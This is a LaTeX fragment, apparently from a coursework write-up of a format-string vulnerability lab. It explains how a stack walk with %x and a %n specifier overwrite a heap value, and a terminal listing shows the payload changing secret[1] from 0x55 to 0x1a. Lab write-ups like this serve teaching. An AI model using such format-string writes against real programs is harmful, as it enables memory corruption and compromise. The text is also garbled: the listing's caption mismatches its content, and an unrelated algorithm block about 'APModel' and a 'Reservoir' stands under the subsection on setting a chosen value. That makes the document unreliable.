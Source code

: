 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
In order to change value of the second element of \texttt{secret} array, similar approach must be taken as for printing it, i.e. we provide address of the value that interests us to be stored int \texttt{int\_input} variable, then we must pop elements of the stack by providing format specifier with a number of \texttt{\%x}s, and then instead of printing value of heap memory in location contained in the next element on the stack, we can use \texttt{\%n} to write modify the memory location. Example is shown in listing~\ref{printf:change}. As we can see, we are able to change the value of the secret from 0x55 to 0x1a.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of printing out memory,
	label=printf:change,
	breaklines=true,
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbf83550c (on stack)
The variable secret’s value is 0x 9448008 (on heap)
secret[0]’s address is 0x 9448008 (on heap)
secret[1]’s address is 0x 944800c (on heap)
Please enter a decimal integer
155484172
Please enter a string
%x%x%x%x%x%n
bf835510bf835590bf83558400
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x1a
\end{lstlisting}

\subsubsection{Changing the value of \texttt{secret[1]} to a pre-determined value}




\SetAlCapSkip{1em}
\LinesNumbered
{}

\vspace{2cm}


\begin{algorithm}[h]

  $m$ $\leftarrow$ APModel($x_1, ..., x_T$)\;
  $Reservoir$ $\leftarrow$ \{\}\;

\end{algorithm}
\vspace{1cm}
\end{document}
